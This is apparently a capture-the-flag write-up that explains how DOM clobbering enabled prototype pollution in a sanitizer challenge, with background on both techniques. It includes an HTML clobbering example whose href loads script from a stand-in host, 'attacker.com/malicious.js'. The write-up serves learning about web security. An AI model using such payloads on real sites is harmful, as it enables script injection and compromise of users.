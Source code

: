 I tried looking for multiple ways to manipulate the code execution flow by changing either the extension variable or the changing the properties of the sanitizer. 
- To confirm that code execution flow was changes, the page had to remove the report link generation or I had to modify the sanitizing source itself.
- This was found to be possible because of a prototype pollution vulnerability.
- And prototype pollution was found to be possible because of a DOM Clobbering vulnerability.

These were still relatively new concepts to me, so the challenge took a little while.

**What is [DOM Clobbering?](https://medium.com/@shilpybanerjee/dom-clobbering-its-clobbering-time-f8dd5c8fbc4b)**

DOM Clobbering is a viable technique, when the website is reflecting user inputted HTML. If the page doesn't sanitize id and name attributes, it might be possible to control some HTML in the DOM.
- For example, you might have an object like `someObject`.
- Then it might call out to a variable like `variableName`.
- If you can, make an anchor tag containing an id
- Then create an another anchor tag with the same id, the name and a href. 

Example:
```html
<a id=someObject>
<a id=someObject name=variable href="http://attacker.com/malicious.js">
```

If the DOM changes the execution of flow in JavaScript, 
It might be possible to end up in a completely different situation, and widening the attack surface.

Based on our earlier code review, we can try to clobber the Object debug.extension with an href containing data URLs. 

By clobbering the object we can execute this conditional statement:
```js       
async function loadBody() {
    let extension = null;
    if (window.debug?.extension) {
	        let res = await fetch(window.debug?.extension.toString());
	        extension = await res.json();
        }
```


**What is [prototype pollution?](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)**

"Well, firstly it needs to be understood that everything in JavaScript is an object: functions, strings, arrays etc. JavaScript inheritance is based on prototypes. Objects automatically inherit all of the properties of their assigned prototype, unless they already have their own property with the same key. 

For example, String.prototype has a built-in method toLowerCase(), which means all strings have the method toLowerCase() because it was inherited from the prototype.

You can even view the properties of an object by accessing objectname.\_\_proto\_\_ in most modern browsers or using the Object.getPrototypeOf(objectname).

The core concern with prototype pollution is that an attacker may attempt to manipulate an object's prototype. This can lead to unexpected behavior in the application, including overwriting properties or methods of objects that are used later in the codebase. This can result in security vulnerabilities, data corruption, or crashes."
